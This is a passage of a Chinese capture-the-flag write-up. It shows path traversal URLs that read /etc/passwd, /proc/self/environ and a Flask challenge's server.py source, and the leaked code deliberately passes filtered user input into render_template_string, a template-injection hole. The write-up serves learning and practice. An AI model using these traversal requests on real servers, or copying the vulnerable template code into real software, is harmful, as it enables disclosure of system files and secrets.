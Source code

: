 ```
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin 
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin 
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
```

5. 尝试 `/proc/self/cmdline`,，即`http://172.19.0.1:5000/article?name=/../../../proc/self/cmdline`，获得回显信息：`pythonserver.py`,获得题目是 python 的服务器。

6. 尝试在 `environ` 查看环境变量，即`http://172.19.0.1:5000/article?name=/../../../proc/self/environ`,获得环境变量,得知`server.py` 在 `/home/sssssserver`路径下。
   > HOSTNAME=c0b8f0d6cb78HOME=/rootPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binPWD=/home/sssssserver

7. 直接访问`server.py`，即`http://172.19.0.1:5000/article?name=/../../../home/sssssserver/server.py`,成功回显 `server.py` 源码。（server.py 可以通过`/proc/self/cwd`进入当前应用所在目录直接获得，即`http://172.19.0.1:5000/article?name=/../../../proc/self/cwd/server.py`）
```python
#!/usr/bin/python
import os
from flask import (Flask, render_template, request, url_for, redirect, session, render_template_string)
from flask_session import Session

app = Flask(__name__)

# execfile() 函数可以用来执行一个文件。
execfile('flag.py')
execfile('key.py')
FLAG = flag

# 在flask项目中，Session, Cookies以及一些第三方扩展都会用到SECRET_KEY值，这是一个比较重要的配置值。
app.secret_key = key

# 访问 host/n1page 时会进入此方法
@ app.route("/n1page", methods=["GET", "POST"])
def n1page():
	if request.method != "POST":
		return redirect(url_for("index"))

	n1code = request.form.get("n1code") or None

	# 过滤
	if n1code is not None:
		n1code = n1code.replace(".", "").replace("_", "").replace("{", "").replace("}", "")

	if "n1code" not in session or session['n1code'] is None:
		session['n1code'] = n1code

	template = None

	if session['n1code'] is not None:
		template = '''
			<h1>N1 Page</h1> <div class="row> 
			<div class="col-md-6 col-md-offset-3 center"> 
			Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>?
			 </div> </div> ''' % session['n1code']

	session['n1code'] = None
	return render_template_string(template) @ app.route("/", methods=["GET"])


```